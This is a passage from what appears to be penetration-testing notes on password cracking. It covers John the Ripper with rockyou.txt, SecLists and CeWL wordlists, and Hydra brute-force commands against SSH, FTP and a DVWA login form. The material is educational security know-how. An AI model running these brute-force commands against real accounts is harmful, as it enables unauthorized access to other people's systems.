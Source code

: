 ```bash
john --wordlist=/usr/share/wordlists/rockyou.txt <hash file>
```

## Attacks

Brute force attacks are generally a last resort because of how resource intensive and time consuming it is. Brute forcing would involve either trying every single possible character combination or some kind of dictionary attack.

### Dictionary Attack

Dictionary attacks utilize giant .txt files of passwords that are put online, with each file being able to contain millions of passwords. One of the most popular one is `rockyou.txt`which contains 14,341,564 unique passwords.

Apart from `rockyou.txt`, we can get more from SecLists.

```bash
sudo apt install seclists
```

{% embed url="https://github.com/danielmiessler/SecLists" %}

Basically a giant compilation of wordlists from all over the web. Apart from passwords, it has subdomain, subdirectory, username and even fuzzing wordlists with special characters.

Apart from seclists, we can also create our own unique wordlists depending on what website we are attacking using cewl.

```bash
cewl -d 2 -m 5 -w docswords.txt https://example.com
```

{% embed url="https://github.com/digininja/CeWL" %}

Tools like `msfconsole`, `hydra` and many others can be used. Hydra is my favourite because of how simple it is to use. Hydra is a module based tool similar to MSF, with each module containing it's own use case, such as different syntax for http-post-form and SSH modules.

{% code overflow="wrap" %}
```bash
sudo apt install THC-Hydra -y

#general hydra use case
hydra -L <Userlist.txt> -P <Dictionary.txt> <Target> <Service>

# ftp and ssh
hydra -l linuxhintuser -P passlist.txt 192.168.0.100 ssh
hydra -L userlist.txt -P passlist.txt 192.168.0.100 ftp

#htttp-post-form (like login forms)
hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>
hydra -L <wordlist> -P <password list> 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```
{% endcode %}
